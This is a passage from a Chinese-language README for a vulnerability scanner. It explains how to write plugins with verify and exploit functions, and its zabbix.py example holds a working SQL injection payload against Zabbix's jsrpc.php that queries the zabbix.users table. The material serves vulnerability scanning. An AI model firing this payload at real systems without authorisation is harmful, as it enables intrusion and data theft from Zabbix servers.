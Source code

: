 ##插件编写规则

在 payload 文件夹下新增一个 .py 文件

 py 文件中主要是 exploit, verify 函数，功能分别是利用和验证, 函数返回值有三个值，第一个值是返回是否存在漏洞，返回 True 或者 False；第二个值是返回 url ,第三个值返回扫描结果。功能分别是利用和验证

*** 示例 (zabbix.py 为例) ***

```
#!/usr/bin/env python
#coding=utf8
#注意 URL 编码
import requests

def verify(arg):

    payload = "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,md5(321),0x7e)%20as%20char),0x7e))%20from%20zabbix.users%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=&mark_color=1"

    url = arg + payload
    # url = urllib.quote(url)
    # print url
    try:
        r = requests.get(url , timeout=5)
        if 'caf1a3dfb505ffed0d024130f58c5cfa' in r.text:
            msg = 'vul'
            return True, arg, msg
        else:
            msg = 'safe'
            return False, arg, msg
    except Exception, e:
        msg = 'safe'
        return False, arg, msg
def exploit(arg):
    pass

```
上面函数都可以自己定义，最后通过 requests 函数发包.
